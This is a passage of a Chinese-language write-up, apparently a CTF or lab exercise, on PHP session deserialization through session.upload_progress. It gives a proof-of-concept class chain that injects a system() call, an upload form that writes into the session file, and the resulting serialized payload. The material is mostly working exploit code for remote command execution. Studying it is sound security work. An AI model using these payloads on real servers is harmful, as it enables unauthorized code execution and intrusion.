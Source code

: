 值为`|`后面的序列化字符串反序列化后的数据(因为php处理器存储的格式是：键名|反序列后的值)



当前代码的话没有向服务器提交数据，但是现在session.upload_progress.enabled是开启的，所以可以通过上传文件，从而在session文件中写入数据



* POC

```
<?php
class foo3{
    public $varr;
    function __construct(){
        $this->varr = 'system(\'ls /var/www/html\');';
    }
}
 
class foo2{
    public $varr;
    public $obj;
    function __construct(){
        $this->varr = '1';
        $this->obj = new foo3();
    }
}
 
class foo1{
    public $varr;
    function __construct(){
        $this->varr = new foo2();
    }
}
 
echo serialize(new foo1());
?>
```

* 上传表单

这里的action只要是服务器上代码中有session_start()的php文件即可

```
<form action="http://192.168.3.136/index.php" method="POST" enctype="multipart/form-data">        
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />        
    <input type="file" name="file" />        
    <input type="submit" />
</form>
```

### 0x04 利用
* 首先利用poc生成序列化的payload

```
O:4:"foo1":1:{s:4:"varr";O:4:"foo2":2:{s:4:"varr";s:1:"1";s:3:"obj";O:4:"foo3":1:{s:4:"varr";s:27:"system('ls /var/www/html');";}}}
```
